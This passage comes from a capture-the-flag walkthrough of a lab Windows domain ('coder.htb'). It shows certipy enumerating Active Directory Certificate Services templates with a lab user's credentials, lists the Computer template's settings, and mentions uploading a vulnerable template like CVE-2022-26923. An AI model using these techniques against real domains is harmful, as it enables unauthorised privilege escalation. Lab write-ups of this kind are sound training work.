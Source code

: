The most important one is the top one, Administrator.

### Exploit - Shortcut

#### Create Template

e.black has rights to create ADCS templates. Above I showed doing that to upload a template misconfigured like what led to CVE-2022-26923. But I can upload really any vulenable template.

I’ll take a look at what [certipy](https://github.com/ly4k/Certipy) shows about the same “Computer” template I modified above. I’ll run it to get all templates and save them to a file:

```

oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
[*] Got CA configuration for 'coder-DC01-CA'
[*] Saved text output to '20231115123715_Certipy.txt'

```

The results for “Computer” are:

```

  20
    Template Name                       : Machine
    Display Name                        : Computer
    Certificate Authorities             : coder-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CODER.HTB\Domain Admins
                                          CODER.HTB\Domain Computers
                                          CODER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CODER.HTB\Enterprise Admins
        Write Owner Principals          : CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        Write Dacl Principals           : CODER.HTB\Domain Admins
```